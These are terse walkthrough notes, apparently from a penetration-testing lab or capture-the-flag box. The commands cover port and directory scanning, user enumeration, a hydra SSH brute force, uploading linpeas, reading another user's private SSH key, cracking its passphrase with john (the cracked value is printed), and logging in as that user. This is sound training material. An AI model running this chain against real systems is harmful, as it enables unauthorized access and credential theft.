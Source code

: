 2) nmap IP
3) dirb http://IP/
5) enum4linux -a IP
- kay and jan
6) hydra -l jan -P rockyou.txt ssh://IP
-armando
7) SSH
8) scp linpeas.sh jan@10.10.33.147:/tmp
cd /tmp
./linPEAS
cat /home/kay/.ssh/id_rsa
nano ssh.txt, paste the rsa key here
/usr/share/john/ssh2john ssh.txt > hash.txt
john --wordlist=rockyou.txt hash.txt
beeswax
openssl rsa -in ssh.txt -out out.key
ssh -i out.key kay@IP
cat pass.bak
